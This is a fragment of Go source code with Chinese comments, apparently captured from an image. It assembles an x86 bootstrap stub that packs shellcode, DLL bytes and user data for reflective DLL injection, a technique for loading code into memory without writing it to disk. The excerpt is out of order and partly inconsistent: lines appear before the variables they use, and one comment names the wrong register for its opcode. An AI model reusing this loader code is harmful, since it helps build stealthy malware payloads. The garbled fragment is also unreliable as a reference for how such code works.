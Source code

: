 // 将 RDI Shellcode64、dllBytes 和 userData 添加到 shellcodez 中
shellcodez = append(bootstrap, rdiShellcode64...)
shellcodez = append(shellcodez, dllBytes...)
shellcodez = append(shellcodez, userData...)
		// 设置 bootstrapSize 变量的值为 45
		bootstrapSize := 45

		// 创建一个包含指令的字节切片，用于调用下一条指令（将下一条指令的地址推入栈中）
		bootstrap := []byte{0xe8, 0x00, 0x00, 0x00, 0x00}

		// 计算 DLL 偏移量，从 pop 结果中减去 bootstrap 的长度再加上 rdiShellcode32 的长度
		dllOffset := bootstrapSize - len(bootstrap) + len(rdiShellcode32)

		// 添加指令 pop ecx，用于捕获内存中的当前位置
		bootstrap = append(bootstrap, 0x58)

		// 添加指令 mov ebx, eax，将内存中的当前位置复制到 ebx 寄存器中，然后开始修改 eax 寄存器
		bootstrap = append(bootstrap, 0x89, 0xc3)

		// 添加指令 add eax, <DLL 偏移量>，将 eax 寄存器的值增加到 DLL 的偏移量
		bootstrap = append(bootstrap, 0x05)
		bootstrap = append(bootstrap, pack(uint32(dllOffset))...)

		// 添加指令 add ebx, <DLL 偏移量> + <DLL 大小>，将 ebx 寄存器的值增加到 DLL 的偏移量加上 DLL 的大小
		bootstrap = append(bootstrap, 0x81, 0xc3)
		// 计算用户数据的位置，将其添加到引导代码中
		userDataLocation := dllOffset + len(dllBytes)
		bootstrap = append(bootstrap, pack(uint32(userDataLocation))...)

		// 将标志位添加到引导代码中
		// push <Flags>
		bootstrap = append(bootstrap, 0x68)
		bootstrap = append(bootstrap, pack(uint32(flags))...)

		// 将用户数据的长度添加到引导代码中
		// push <Length of User Data>
		bootstrap = append(bootstrap, 0x68)
		bootstrap = append(bootstrap, pack(uint32(len(userData)))...)

		// 将 ebx 寄存器的值添加到引导代码中
		// push ebx
		bootstrap = append(bootstrap, 0x53)

		// 将函数的哈希值添加到引导代码中
		// push <hash of function>
		bootstrap = append(bootstrap, 0x68)
		bootstrap = append(bootstrap, functionHash...)

		// 将 eax 寄存器的值添加到引导代码中
		// push eax
		bootstrap = append(bootstrap, 0x50)
// 将执行转移到 RDI 寄存器
bootstrap = append(bootstrap, 0xe8)
bootstrap = append(bootstrap, byte(bootstrapSize-len(bootstrap)-4)) // 跳过剩余的指令
bootstrap = append(bootstrap, 0x00, 0x00, 0x00)
